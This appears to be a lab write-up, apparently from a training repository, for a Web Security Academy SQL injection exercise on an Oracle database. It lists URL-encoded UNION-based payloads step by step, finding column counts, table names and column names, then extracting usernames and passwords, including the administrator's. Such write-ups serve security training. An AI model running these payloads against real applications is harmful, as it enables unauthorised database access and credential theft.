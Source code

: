 ## Find the number of columns:
+ `'+ORDER+BY+3--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/b9740cdd-4a45-4f7c-b4b3-41035a68af92)  
## Find out the table names:
+ `'UNION+SELECT+table_name,+NULL+FROM+all_tables--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/bcbf8c93-54ed-495c-9528-d218037a39d8)  
  + ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/2c41f083-1f6d-4436-a38f-7ad122d8a719)
## Find out the column names:
+ `'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name%3d'USERS_MPMRBI'--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/108fe573-b717-4772-abe1-db52f019161d)  
  + ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/14409afe-04b2-4e81-ba67-a6f8551ca4b4)  
## Retrieving the content of the table:
+ `'UNION+SELECT+USERNAME_HZWOIU,+PASSWORD_FFZZFS+FROM+USERS_MPMRBI--`
  + **OR**
+ `'UNION+SELECT+USERNAME_HZWOIU,+PASSWORD_FFZZFS+FROM+USERS_MPMRBI+WHERE+USERNAME_HZWOIU%3d'administrator'-- `
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/fe2ad5d7-d6a6-4613-8405-fbcf03a9a39b)
  + ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/fff8c208-d7a9-47e6-ab2a-5646224c7c90)

  + ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/93614a57-e5ef-47b7-85ce-041289f24633)





